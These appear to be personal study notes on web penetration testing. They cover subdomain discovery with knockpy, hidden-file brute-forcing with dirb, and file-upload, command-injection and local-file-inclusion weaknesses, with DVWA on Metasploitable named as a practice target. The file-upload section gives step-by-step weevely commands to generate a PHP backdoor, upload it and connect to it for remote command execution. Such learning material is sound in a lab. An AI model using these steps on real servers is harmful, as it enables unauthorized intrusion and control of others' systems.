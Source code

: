 
  

To get information of subdomains, that sometimes are given to employees or especial clients and are not advertised, is interesting because is more common to find vulnerabilities in them.

1. Open Terminador
    
2. git clone [https://github.com/guelfoweb/knock.git](https://github.com/guelfoweb/knock.git)
    
3. cd knock/knockpy
    
4. python knockpy.py <domain you want to target>
    

  

To find files, even the hidden ones

- Open Terminator
    
- man dirb //It works with brute force, you give names and it tells you if finds a file with that name
    
- dirb <url> //like this it uses a common list of names 
    

  

File Upload Vulnerabilities

If a site lets you upload files, like perfil photos, you can upload instead a php file. To do this, you can use a tool called weevely to create a payload/shell

//To test this, use DVWA ste available on the metasploitable machine

- Open Terminator
    
- weevely generate 123456<password> /root/shell.php<where to store the backdoor>
    
- Upload shell.php
    
- weevely <url of the uploaded file> <password> //To connect with the backdoor. Now you can execute any command
    
- uname -a
    

  

Code execution vulnerabilities

Allow an attacker to execute Operating system commands on the server. Always test input boxes to see if you can inject a command

  

Local file inclusion

Allow the attacker to read any file on the same server. Here you can explore the URL trying to navigate the directories and see if you find any sensitive information

If a server have a certain vulnerability that is a function called allow_URL or allow_url_fopen

  

How to PREVENT the attacks above

All of those vulnerabilities are created because of a functionality. 
